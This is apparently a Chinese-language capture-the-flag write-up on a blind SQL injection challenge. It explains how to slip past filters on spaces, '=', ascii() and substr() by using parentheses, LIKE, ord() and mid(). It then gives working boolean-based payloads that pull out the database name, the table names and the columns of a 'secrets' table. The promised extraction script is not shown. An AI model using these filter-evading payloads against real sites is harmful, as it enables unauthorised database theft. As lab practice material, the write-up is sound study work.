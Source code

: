 这题一看就是盲注，测试过滤

```sql
空格、=、/、ascii()、substr()
```

如何绕过

```sql
# 1.空格用括号绕过
# 2.=用likeraoguo
# 3.ascii()用ord()绕过
# 4，substr()用mid()绕过
```

> 介绍一下后两个函数
>
> mid（）![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732547547325-576a837b-913b-4eff-9c9e-26ca4ae146a1.png)
>
> ord（）
>
> MySQL中的ORD()函数用于查找字符串中最左边的字符的代码。如果最左边的字符不是多字节字符，则返回ASCII值。并且如果字符串str的最左边的字符是一个多字节字符，那么ORD返回该字符的代码，该代码是使用以下公式根据其组成字节的数值计算得出的：
>
> **(第一字节代码)+(第二字节代码* 256)+(第三字节代码* 256^2)……**
>
> **补充：**
>
> ![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732547654950-958a86ec-2411-4ae2-b2d3-67467e40c99f.png)
>

试一下语句,准备写脚本

```sql
Alice'and(ord(mid((select(group_concat(database()))),1,1))>1)#
```

成功，写脚本，脚本在最后粘出

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732548610662-6a7fb464-6e60-4555-bc36-1d7ce230ff1d.png)

当前库名

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732548875799-da8fb021-6573-4666-8c82-de2afbac3709.png)

爆表名

```sql
Alice'and((((ord(mid((select(group_concat(table_name))from(information_schema.tables)where((table_schema)like(database()))),1,1))))>1))#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732550631590-a2f13a37-0787-462d-9ccb-a964c71b68d5.png)

```sql
Alice'and((((ord(mid((select(group_concat(column_name))from(information_schema.columns)where((table_name)like('secrets'))),1,1))))>1))#
```
